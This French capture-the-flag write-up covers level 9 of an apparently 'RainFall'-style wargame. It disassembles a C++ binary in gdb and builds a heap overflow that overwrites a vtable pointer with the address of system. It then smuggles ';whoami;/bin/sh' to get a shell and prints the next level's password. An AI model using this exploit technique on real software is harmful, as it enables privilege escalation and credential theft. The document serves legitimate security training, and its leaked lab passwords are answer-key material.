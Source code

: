 # LEVEL 9

On se connecte sur le level9, ou se trouve un **binaire** <code>level9</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
> gdb -q level9
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:    mov    %eax,%ebx
   0x0804861e <+42>:    movl   $0x5,0x4(%esp)
   0x08048626 <+50>:    mov    %ebx,(%esp)
   0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:    movl   $0x6c,(%esp)
   0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:    mov    %eax,%ebx
   0x08048640 <+76>:    movl   $0x6,0x4(%esp)
   0x08048648 <+84>:    mov    %ebx,(%esp)
   0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:    mov    %ebx,0x18(%esp)
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp)
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp)
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret
End of assembler dump.

(gdb) > i functions
All defined functions:

Non-debugging symbols:
0x08048464  _init
0x080484b0  __cxa_atexit
0x080484b0  __cxa_atexit@plt
0x080484c0  __gmon_start__
0x080484c0  __gmon_start__@plt
0x080484d0  std::ios_base::Init::Init()
0x080484d0  _ZNSt8ios_base4InitC1Ev@plt
0x080484e0  __libc_start_main
0x080484e0  __libc_start_main@plt
0x080484f0  _exit
0x080484f0  _exit@plt
0x08048500  _ZNSt8ios_base4InitD1Ev
0x08048500  _ZNSt8ios_base4InitD1Ev@plt
0x08048510  memcpy
0x08048510  memcpy@plt
0x08048520  strlen
0x08048520  strlen@plt
0x08048530  operator new(unsigned int)
0x08048530  _Znwj@plt
0x08048540  _start
0x08048570  __do_global_dtors_aux
0x080485d0  frame_dummy
0x080485f4  main
0x0804869a  __static_initialization_and_destruction_0(int, int)
0x080486da  _GLOBAL__sub_I_main
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
0x08048770  __libc_csu_init
0x080487e0  __libc_csu_fini
0x080487e2  __i686.get_pc_thunk.bx
0x080487f0  __do_global_ctors_aux
0x0804881c  _fini
```

Après analyse du fichier (**source.c**), on se rend compte que le programme appelle la fonction **memcpy** que nous pourront exploiter.
On commence par trouver l'offset

```gdb
(gdb) > b *main+131
Breakpoint 1 at 0x8048677
(gdb) > b *main+136
Breakpoint 2 at 0x804867c
(gdb) run BBBB
Starting program: /home/user/level9/level9 BBBB

Breakpoint 1, 0x08048677 in main ()
(gdb) > info proc mappings
process 13122
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level9/level9
         0x8049000  0x804a000     0x1000        0x0 /home/user/level9/level9
         0x804a000  0x806b000    0x21000        0x0 [heap]
         .............
(gdb) > x/100x 0x804a000
0x804a000:      0x00000000      0x00000071      0x08048848      0x00000000
0x804a010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000005      0x00000071      0x08048848      0x00000000
....

(gdb) > c
Continuing.
Breakpoint 2, 0x0804867c in main ()

(gdb) > x/50x 0x804a000
0x804a000:      0x00000000      0x00000071      0x08048848      0x42424242
0x804a010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000005      0x00000071      0x08048848      0x00000000
0x804a080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c0:      0x00000000      0x00000000

(gdb) > x  0x08048848
0x8048848 <_ZTV1N+8>:   0x0804873a

(gdb) > i functions
All defined functions:

Non-debugging symbols:
...
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
...
```
On a mis un breakpoint avant l'appel de fonction de **setAnnotation** et un juste après pour obtenir l'adresse du début de notre **buffer**. En affichant la **heap** on remarque l'adresse d'un pointeur `0x08048848`,  ce pointeur pointe sur la méthode **N::operator+** de notre classe **N**.

On va donc chercher à écrire sur ce pointeur (qui est call dans la suite du main).
On recherche l'**offset** :

```gdb
(gdb) > p  0x804a078 - 0x804a00c
$1 = 108
```

> OFFSET = 108


```gdb
(gdb) b main
Breakpoint 1 at 0x80485f8
(gdb) run
Starting program: /home/user/level9/level9

Breakpoint 1, 0x080485f8 in main ()
(gdb) p *system
$1 = {<text variable, no debug info>} 0xb7d86060 <system>
```

> SYSTEM = 0xb7d86060

En insérant l'adresse de **system** au début de notre buffer, nous pouvons par la suite réécrire sur l'adresse du pointeur pour que cette adresse pointe sur l'adresse de **system**. Ainsi, lors du call de notre pointeur déréférencé dans le main, le programme va effectuer un call vers **system**.

```bash
level9@RainFall:~$ ./level9 `python -c 'print "\x60\x60\xd8\xb7" + "A" * 104 + "\x0c\xa0\x04\x08"'`
sh: 1: ♀: not found
```

On remarque que nous avons pu appeler **system**, malheureusement il semble compliqué d'insérer les arguments **exit** et **/bin/sh** directement au moment de notre call. Nous pouvons néanmoins insérer de nouvelles instructions à **system** après l'erreur grâce au `;` qui permet d'exécuter une commande même si la commande précédente à échouer (contrairement à `&&`) :

```bash
level9@RainFall:~$ > ./level9 `python -c 'print "\x60\x60\xd8\xb7" + "A" * 104 + "\x0c\xa0\x04\x08;whoami;/bin/sh"'`
sh: 1: ♀: not found
bonus0
$ > cd ../bonus0/ && cat .pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

For download :
<pre><code>scp -P4242 level9@IP:level9 .</code></pre>
> Password : c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a